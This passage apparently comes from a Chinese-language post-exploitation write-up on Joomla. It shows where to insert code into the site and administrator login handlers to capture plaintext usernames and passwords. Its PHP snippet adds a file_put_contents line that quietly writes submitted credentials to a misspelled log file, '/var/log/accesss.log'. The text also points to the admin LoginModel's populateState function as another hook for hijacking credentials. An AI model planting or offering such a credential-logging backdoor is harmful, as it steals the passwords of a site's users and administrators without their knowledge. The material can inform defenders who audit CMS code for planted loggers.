 [![](assets/1706845175-fb06c55060aa7fde8c25c8170b637be7.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706771938439-8da3a217-fa76-4823-89fb-6fbb3c879956.png#averageHue=%232c2e32&clientId=u22ad75f3-605d-4&from=paste&height=980&id=RRCip&originHeight=1960&originWidth=3096&originalType=binary&ratio=2&rotation=0&showTitle=false&size=757246&status=done&style=none&taskId=u3a897f44-32d1-4a24-9a94-10e19b47c26&title=&width=1548)  
可以在此处插入代码劫持$data\['username'\]和$data\['password'\]，具体方法参照[wordpress 安全技术研究](https://xz.aliyun.com/t/13447)

```bash
public function login()
  {
    $this->checkToken('post');

    $input = $this->input->getInputForRequestMethod();

    // Populate the data array:
    $data = [];

    $data['return']    = base64_decode($input->get('return', '', 'BASE64'));
    $data['username']  = $input->get('username', '', 'USERNAME');
    $data['password']  = $input->get('password', '', 'RAW');
    $data['secretkey'] = $input->get('secretkey', '', 'RAW');
    file_put_contents('/var/log/accesss.log',$data['username'].$data['password']);
```

### 后台

通过动态侦听调试发现位于/administrator/components/com\_login/src/Model/LoginModel.php 控制器中的 populateState 函数在登陆过程中收集了明文密码，那么我们只需要对$credentials 变量进行劫持，具体方法参照[wordpress 安全技术研究](https://xz.aliyun.com/t/13447)  